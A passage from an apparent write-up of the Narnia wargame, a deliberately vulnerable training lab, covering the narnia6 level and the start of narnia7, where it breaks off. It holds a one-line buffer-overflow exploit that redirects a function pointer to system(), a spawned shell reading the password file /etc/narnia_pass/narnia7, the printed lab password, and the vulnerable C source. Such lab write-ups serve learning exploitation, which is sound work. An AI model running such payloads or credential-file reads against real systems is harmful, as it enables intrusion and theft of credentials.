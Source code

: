 {% highlight bash %}
narnia6@narnia\:/narnia$ ./narnia6 $(python -c "print 'sh\;'+'A'*5+'\\x50\\xc8\\xe4\\xf7'+' '+'B'*4")  
$ whoami  
narnia7  
$ cat /etc/narnia_pass/narnia7  
ahkiaziphu
{% endhighlight %}

### Source Code

{% highlight c %}
#include <stdio.h>  
#include <stdlib.h>  
#include <string.h>  
  
extern char **environ\;// tired of fixing values...  
// - morla  
unsigned long get_sp(void) {  
      __asm__("movl %esp,%eax\\n\\t"              "and $0xff000000, %eax"              )\;  
}int main(int argc, char *argv[]){       char b1[8], b2[8]\;       int  (*fp)(char *)=(int(*)(char *))&puts, i\;       if(argc!=3){ printf("%s b1 b2\\n", argv[0])\; exit(-1)\; }       /* clear environ */       for(i=0\; environ[i] != NULL\; i++)               memset(environ[i], '\\0', strlen(environ[i]))\;       /* clear argz    */       for(i=3\; argv[i] != NULL\; i++)               memset(argv[i], '\\0', strlen(argv[i]))\;       strcpy(b1,argv[1])\;       strcpy(b2,argv[2])\;       //if(((unsigned long)fp & 0xff000000) == 0xff000000)       if(((unsigned long)fp & 0xff000000) == get_sp())               exit(-1)\;  
       setreuid(geteuid(),geteuid())\;  
   fp(b1)\;       exit(1)\;  
}
{% endhighlight %}

Once again, Ghidra confused the for loop with a while loop. In any case, the operations within these loops were of no interest in regards to exploiting the binary. Note that the stdlib library was included in the binary which allowed us to use the system function.

Narnia 7
--------

After grabbing the credentials of the narnia7 user, we can ssh into the box as the compromised user and access the narnia7 binary.

### Binary Analysis

#### Behavior

When executing it, we are met with a prompt that expects an input as an argument\:

{% highlight bash %}
narnia7@narnia\:/narnia$ ./narnia7  
Usage\: ./narnia7 <buffer>
{% endhighlight %}

Putting a simple input such as ‘A’, we can see that nothing out of the ordinary occurs\:
